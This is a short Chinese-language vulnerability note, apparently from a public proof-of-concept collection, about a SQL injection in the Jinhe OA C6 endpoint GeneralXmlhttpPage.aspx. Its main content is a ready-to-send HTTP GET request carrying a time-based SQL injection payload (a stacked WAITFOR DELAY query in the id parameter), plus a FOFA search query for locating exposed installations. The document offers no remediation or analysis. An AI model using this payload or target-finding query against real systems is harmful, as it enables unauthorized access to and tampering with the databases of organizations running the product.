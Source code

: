 # 金和OA-C6-GeneralXmlhttpPage.aspx存在SQL注入漏洞

金和OAv C6 接口 `/C6/Jhsoft.Web.appraise/GeneralXmlhttpPage.aspx` 存在SQL注入漏洞。

## fofa

```yaml
app="金和网络-金和OA"
```


## poc

```
GET /C6/Jhsoft.Web.appraise/GeneralXmlhttpPage.aspx/?type=CheckAppraiseState&id=1'%3b+WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
```

